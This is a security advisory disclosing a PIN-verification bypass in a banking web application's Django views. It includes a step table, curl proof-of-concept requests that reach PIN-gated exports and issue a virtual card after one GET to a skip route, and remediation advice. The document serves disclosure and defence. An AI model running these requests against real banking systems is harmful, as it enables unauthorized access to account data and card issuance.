



# Description

Banking PIN-gate bypass (CWE-287). The banking module implements secondary authentication through server-side PIN verification.

The banking dashboard correctly enforces the PIN verification requirement (`Bank/views.py:160-161`).

The vulnerability originates from improper management of the banking authorization state (`Bank/views.py:402-405`), which allows authorization to be established without successful PIN validation: any logged-in user who sends `GET /banking/pin-skip/` gets `pin_expiry = now + 3600` written to their session, i.e. a 1-hour banking session, six times longer than the 10 minutes granted by a real PIN verification.

The normal PIN verification mechanism (`Bank/views_pin.py:26-96`) grants temporary banking authorization following successful validation. Session expiration is handled in `Bank/Utils/expiry.py:4-12`.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Log in to the main app. | Valid `sessionid`. |
| 2 | `GET /banking/dashboard/`. | Redirect to `/banking/verification/` (PIN required). |
| 3 | `GET /banking/pin-skip/`. | Redirect to `/banking/dashboard/` (PIN **not** required). |
| 4 | `GET /banking/dashboard/`, `/banking/transactions/`, `/banking/export/json/`, `/banking/statement/`. | All return `200` with the account's balance, cards, transactions and PDF statement. |
| 5 | `POST /banking/card/generate/` (CSRF token + session). | Before step 3: `403 {"message": "Banking session expired. Please verify your PIN."}`; after step 3: `200 {"success": true, "message": "New virtual card generated successfully."}`. |

# PoC

**Comparison on the same session — one GET bypasses the gate:**

```bash
curl -sk -b cookies.txt -D - -o /dev/null "https://<TARGET>/banking/dashboard/"
# Location: /banking/verification/      ← PIN gate enforced

curl -sk -b cookies.txt -D - -o /dev/null "https://<TARGET>/banking/pin-skip/"
# Location: /banking/dashboard/         ← PIN gate skipped

curl -sk -b cookies.txt -D - -o /dev/null "https://<TARGET>/banking/export/json/"
# HTTP/1.1 200 OK, Content-Type: application/json   ← PIN-gated export now served
```

**PIN-gated write operation after the bypass** (same session, `csrftoken` taken from the cookie jar):

```bash
curl -sk -b cookies.txt -H "X-CSRFToken: <csrftoken>" -H "Referer: https://<TARGET>/banking/dashboard/" \
     -d "card_type=virtual" "https://<TARGET>/banking/card/generate/"
# {"success": true, "message": "New virtual card generated successfully.", ...}
# (the same request before /banking/pin-skip/ returns 403 "Banking session expired. Please verify your PIN.")
```

Only `GET` is needed; a `POST` to `/banking/pin-skip/` without a CSRF token is rejected with `403`, and an unauthenticated request is redirected to `/account/login/?next=/banking/pin-skip/`.








The route is listed in `robots.txt`:

```bash
curl -sk "https://<TARGET>/robots.txt"   # contains: Disallow: /banking/pin-skip/
```


Live testing confirmed the vulnerability on a fresh authenticated session with an associated bank account.

The vulnerability was also confirmed through BunkerWeb over HTTP and HTTPS with CRS 4.26 operating in detection mode.

No CRS rule was triggered, and the anomaly score remained at 0. The reverse proxy did not prevent the demonstrated authentication failure.

Blocking mode was not tested.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Exposure of sensitive banking dashboard data, including balances, cards and transaction history. |
| Integrity | PIN-gated banking operations become available without the PIN; demonstrated by issuing a new virtual card via `POST /banking/card/generate/`. Operations that re-check a secret (e.g. `/banking/change-pin/` requires the current PIN and the account password) are not unlocked by the bypass alone. |
| Availability | None directly demonstrated. |

Overall severity: **High** — the vulnerability compromises the secondary authentication boundary protecting sensitive financial data.

# Remediation

1. **Remove the `pin_skip` view and its associated URL mapping** from production deployments.
2. **Require successful server-side PIN validation** before granting banking authorization. Ensure that `pin_expiry` is established exclusively following successful validation by `verify_pin`.
3. **Centralise banking authorization** and enforce it consistently before accessing sensitive data or performing banking operations.
4. **Audit all `robots.txt`-disallowed routes** to ensure that access controls are properly enforced.
5. **Add regression tests** covering banking authentication, authorization and session expiration.

# Author
CPE LYON
